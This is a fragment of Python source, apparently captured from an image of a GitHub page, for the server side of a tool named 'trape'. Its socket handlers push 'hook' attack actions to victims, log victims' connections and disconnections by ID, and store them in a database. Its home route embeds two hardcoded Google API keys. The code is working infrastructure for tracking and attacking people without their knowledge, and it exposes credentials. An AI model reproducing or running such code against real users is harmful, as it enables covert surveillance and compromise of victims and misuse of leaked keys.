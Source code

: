 ```python
~~        session['receive_count'] = session.get('receive_count', 0) + 1
        hookAction = attacks_hook_message(message['data']['type'])
        utils.Go(utils.Color['white'] + "[" + utils.Color['blueBold'] + "@" + utils.Color['white'] + "]" + " " + hookAction + utils.Color['blue'] + message['data']['message'] + utils.Color['white'] + ' in '  + utils.Color['green'] + message['room'] + utils.Color['white'])
        emit('my_response', {'data': message['data'], 'count': session['receive_count']},room = message['room'])
    except Exception as error:
        pass

@socketio.on("disconnect_request", namespace="/trape")
def disconnect_request(d):
    try:
~~        session['receive_count'] = session.get('receive_count', 0) + 1
        emit('my_response', {'data': 'Disconnected!', 'count': session['receive_count']})
        utils.Go(utils.Color['white'] + "[" + utils.Color['redBold'] + "-" + utils.Color['white'] + "]" + utils.Color['red'] + " " + "A victim has closed her connection with the following id:" + " " + utils.Color['green'] + d['vId'] + utils.Color['white'])
        db.sentences_victim('disconnect_victim', d['vId'], 2)
    except Exception as error:
        pass

@socketio.on("error", namespace="/trape")
def socket_def_error(d):
    pass

@socketio.on_error("/trape")
def error_handler(e):
    pass

@app.route("/" + trape.home_path)
def home():
    gMaps_free_api_key = 'AIzaSyBUPHAjZl3n8Eza66ka6B78iVyPteC5MgM'
    if (trape.gmaps != ''):
        gMaps_free_api_key = trape.gmaps

    shorten_api = 'AIzaSyCPzcppCT27KTHnxAIQvYhtvB_l8sKGYBs'

    html = trape.injectCSS_Paths(render_template("home.html", async_mode=socketio.async_mode).replace('[OWN_API_KEY_HERE]', gMaps_free_api_key).replace('[LIBS_SRC]', trape.JSFiles[1]['src']).replace('[TRAPE_SRC]', trape.JSFiles[4]['src']))
    return html


## ... source file continues with no further session examples...

```

